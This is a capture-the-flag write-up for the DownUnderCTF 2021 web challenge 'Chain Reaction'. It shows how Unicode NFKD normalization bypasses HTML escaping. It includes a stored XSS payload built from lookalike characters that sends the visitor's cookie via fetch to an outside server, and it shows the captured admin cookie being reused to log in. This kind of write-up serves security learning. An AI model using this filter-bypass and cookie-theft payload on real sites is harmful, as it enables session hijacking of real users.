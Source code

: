 # Chain Reaction

- **Category:** Web

## Challenge

A bunch of university students want to start a company and hired some young university students. I wonder if they paid any attention to security.

Author: n00bmaster
https://web-chainreaction-a4b5ae3b.chal-2021.duc.tf

## Solution

Browsing around reveals `/dev` which reveals `/devchat` where devs talked about the vulnerability in unicode characters

> John: There is a small bug with register/login, it is acting very weird with unicode characters and causes errors with SQLAlchemy when adding those unicode characters. Anyone know a fix? Also the about me section was all html escaped making it look ugly, need to try and find a fix for that as well. It looks very ugly.

> Wick: Yea we can normalize them right? to make that work? Only used it once for a uni project this semester, NFKD I think it was, ill see how we go and for the html thing i think its because its being being pasted as raw value, ill just html escape the page instead

We register a profile then update our profile details with `﹤ˢcrⁱpt﹥fetch("https://ourserver/?c="+document.cookie)﹤/ˢcrⁱpt﹥` and report the page as a problem so admin would visit it

We receive the admin cookie after the admin visits the page `GET /?c=admin-cookie=sup3rs3cur34dm1nc00k13`

We use this `admin-cookie` and replace our `Cookie` to log in as admin to reveal

```html
<h1>You shouldn't be here</h1>
<small>DUCTF{_un1c0de_bypass_x55_ftw!}</small>
```

Flag

```
DUCTF{_un1c0de_bypass_x55_ftw!}
```
